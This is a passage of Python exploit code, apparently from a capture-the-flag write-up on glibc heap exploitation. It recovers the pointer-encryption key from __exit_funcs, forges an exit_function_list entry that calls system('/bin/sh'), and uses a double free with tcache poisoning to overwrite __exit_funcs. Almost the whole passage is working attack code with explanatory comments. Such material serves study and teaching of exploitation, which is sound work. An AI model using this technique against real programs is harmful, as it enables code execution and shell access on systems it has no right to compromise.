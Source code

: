 ```python  
# To find this key, we will need to obtain a known encrypted pointer. Luckily
there is one in the __exit_funcs by default.  
# See the above blogpost for details

# This is where the original __exit_funcs first function is stored (found the
offset using gdb):  
orig_onexit_addr = libc.address + 0x21af18  
# And this is the address of the function (_dl_fini) it calls  
orig_handler = libc.address + 0x230040

# The shifts are copied from the above blogpost  
# Rotate left: 0b1001 --> 0b0011  
rol = lambda val, r_bits, max_bits: \  
   (val << r_bits%max_bits) & (2**max_bits-1) | \  
   ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

# Rotate right: 0b1001 --> 0b1100  
ror = lambda val, r_bits, max_bits: \  
   ((val & (2**max_bits-1)) >> r_bits%max_bits) | \  
   (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))

# encrypt a function pointer  
def encrypt(v, key):  
   return p64(rol(v ^ key, 0x11, 64))

# obtain the key  
key = ror(u64(read(orig_onexit_addr, 8)), 0x11, 64) ^ orig_handler

# Sanity check that the implementation is correct (check in GDB)  
log.info(f'ptr encryption key: {hex(key)}')  
log.info(f'sanity check: {hex(u64(encrypt(orig_handler, key)))}')

# Next, we need to allocate our exit_function_list, we're using the cxa type
because it is called as func(void *arg, int status)  
# This is nice to obtain system(void *arg) where arg is a pointer to "/bin/sh"  
# We already allocated the '/bin/sh' at offset 0x2c0  
#############  next | count  | type (cxa) | addr                             | arg               | not used  
onexit_fun = p64(0) + p64(1) + p64(4)     + encrypt(libc.sym['system'], key) +
p64(heap + 0x2c0) + p64(0)  
add(onexit_fun)

# So, how do we write this to the __exit_funcs pointer?  
# We can use the free()-primitive to get a double free  
# Then we can allocate one (setting the fwd pointer)  
# Note that glibc checks whether tcache chunks are properly aligned (multiple
of 0x10)  
# As it is at an odd address, we have to allocate 8 bytes earlier and pad our
string  
idx = chunk_idx  
add(b'0' * 24 + p64(0x21) + b'Z'*16)  
delete(idx)  
free(heap + 0x4d0)

# Now, when we allocate the chunk_t again (chunk idx), we can overwrite the
fwd pointer,  
# which will be served in the next allocation  
# Important: We have to obfuscate the pointer!  
add(b'0' * 24 + p64(0x21) + p64((__exit_funcs - 8) ^ (heap >> 12)) + b'Y'*16)  
# Now, the next alloc returns the address __exit_funcs - 8, which we will
overwrite  
# with our exit_function_list we allocated earlier  
add(b'\x00' * 8 + p64(heap + 0x450))
```